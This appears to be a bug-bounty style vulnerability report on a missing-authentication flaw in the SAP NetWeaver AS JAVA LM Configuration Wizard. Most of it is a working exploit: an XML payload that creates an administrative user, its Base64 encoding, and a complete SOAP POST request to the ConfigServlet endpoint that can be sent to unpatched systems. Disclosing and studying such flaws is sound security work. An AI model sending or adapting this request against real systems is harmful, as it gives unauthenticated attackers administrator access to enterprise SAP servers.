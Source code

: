 
# Title

   SAP NetWeaver AS JAVA (LM Configuration Wizard), versions - 7.30, 7.31, 7.40, 7.50, does not perform an authentication check which allows an attacker without prior authentication to execute configuration tasks to perform critical actions against the SAP Java system, including the ability to create an administrative user.

## Steps To Reproduce

Payload
We are going to use this payload encoded in Base64. 
```
<root><user><JavaOrABAP>java</JavaOrABAP><username>poccveusername</username><password>ThIsIsAPaSSW0Rd1234</password><userType></userType></user></root>
```
In Base64:
```
PHJvb3Q+PHVzZXI+PEphdmFPckFCQVA+amF2YTwvSmF2YU9yQUJBUD48dXNlcm5hbWU+cG9jY3Zl
dXNlcm5hbWU8L3VzZXJuYW1lPjxwYXNzd29yZD5UaElzSXNBUGFTU1cwUmQxMjM0PC9wYXNzd29y
ZD48dXNlclR5cGU+PC91c2VyVHlwZT48L3VzZXI+PC9yb290Pgo=
```

Request
Let's use the encoded payload inside <baData></baData>
```
POST /CTCWebService/CTCWebServiceBean/ConfigServlet HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Content-Length: 658
Connection: close
Content-Type: text/xml; charset=UTF-8
Accept-Encoding: gzip

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:CTCWebServiceSi"><soapenv:Header/><soapenv:Body><urn:executeSynchronious><identifier><component>sap.com/tc~lm~config~content</component><path>content/Netweaver/ASJava/NWA/SPC/SPC_UserManagement.cproc</path></identifier><contextMessages><baData>PHJvb3Q+PHVzZXI+PEphdmFPckFCQVA+amF2YTwvSmF2YU9yQUJBUD48dXNlcm5hbWU+cG9jY3Zl
dXNlcm5hbWU8L3VzZXJuYW1lPjxwYXNzd29yZD5UaElzSXNBUGFTU1cwUmQxMjM0PC9wYXNzd29y
ZD48dXNlclR5cGU+PC91c2VyVHlwZT48L3VzZXI+PC9yb290Pgo=</baData><name>userDetails</name></contextMessages></urn:executeSynchronious></soapenv:Body></soapenv:Envelope>

```


## Impact
An attacker can create an admin user, therefore compromising Confidentiality, Integrity and Availability of the system, leading to a Missing Authentication Check.

 
### Supporting Material/References




